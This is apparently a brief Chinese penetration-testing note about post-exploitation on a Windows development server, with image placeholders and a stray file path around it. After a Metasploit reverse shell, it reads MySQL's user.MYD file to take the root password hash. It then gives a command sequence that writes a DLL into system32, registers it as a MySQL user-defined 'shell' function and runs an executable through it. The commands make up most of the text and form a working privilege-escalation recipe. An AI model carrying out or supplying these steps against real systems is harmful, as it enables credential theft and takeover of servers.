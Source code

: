 ![](media/925237f336d2f19420dbded16fb9fc93.jpg)  

IP .3  
![](media/ded2f1377655e8467db234c432e8a51f.jpg)

为一台开发机。目标仅支持 asp，无其他脚本支持。但是服务器中安装有 mysql，php 等。并且无 asp to mysql Device Drive IIS配置中也并不支持 php。msf 反弹后，继续搜集情报。

`type C:\MySQL\MySQL Server 5.0\data\mysql\user.MYD`

得到 root hash

在实际情况中，交互的shell下运行 `mysql -uroot -pxxx` 无法继续交互，需要参数 e 解决这个问题。
```bash
mysql -uroot -pxxxxxxxx mysql -e "create table a (cmd LONGBLOB);" 
mysql -uroot -pxxxxxxxx mysql -e "insert into a (cmd) values (hex(load_file('C:\\xxxx\\xxxx.dll')));"
mysql -uroot -pxxxxxxxx mysql -e "SELECT unhex(cmd) FROM a INTO DUMPFILE
 'c:\\windows\\system32\\xxxx.dll';"
mysql -uroot -pxxxxxxxx mysql -e "CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll'" 
mysql -uroot -pxxxxxxxx mysql -e "select shell('cmd','C:\\xxxx\\xxx\\xxxxx.exe');"
```
![](media/0778524b132d34c4e9ac2bdeb4f5ff26.jpg)
